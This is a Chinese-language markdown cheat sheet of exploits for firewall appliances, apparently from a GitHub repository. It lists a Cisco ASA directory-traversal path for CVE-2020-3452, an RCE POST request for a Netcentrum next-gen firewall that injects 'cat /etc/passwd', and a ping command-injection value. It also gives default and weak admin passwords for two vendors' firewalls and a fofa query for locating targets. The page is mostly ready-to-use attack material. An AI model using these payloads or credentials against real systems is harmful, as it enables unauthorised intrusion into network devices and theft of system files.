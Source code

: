 ## 防火墙

**Cisco ASA**
- **CVE-2018-0296 Cisco ASA Directory Traversal**
    - POC | Payload | exp
        - [yassineaboukir/CVE-2018-0296](https://github.com/yassineaboukir/CVE-2018-0296)

- **CVE-2020-3452**
    - POC | Payload | exp
        ```
        /+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
        ```

**网康下一代防火墙**

>  fofa: app="网康科技-下一代防火墙"

- **网康下一代防火墙 RCE**
    - POC | Payload | exp
        ```
        POST /directdata/direct/router HTTP/1.1

        {"action":"SSLVPN_Resource","method":"deleteImage","data":[{"data":["/var/www/html/d.txt;cat /etc/passwd >/var/www/html/test_test.txt"]}],"type":"rpc","tid":17,"f8839p7rqtj":"="}
        ```
        ```
        访问：https://x.x.x.x/test_test.txt
        ```

**启明星辰 天清汉马USG防火墙**
- **弱口令**
    ```
    账号：useradmin
    密码：venus.user
    ```

- **逻辑缺陷漏洞**
    ```
    登陆后,后台可直接修改任意用户权限
    ```

**佑友防火墙**
- **默认账号密码**
    ```
    User: admin
    Pass: hicomadmin
    ```

- **后台命令执行漏洞**
    ```
    系统管理 --> 维护工具 --> Ping
    127.0.0.1|cat /etc/passwd
    ```
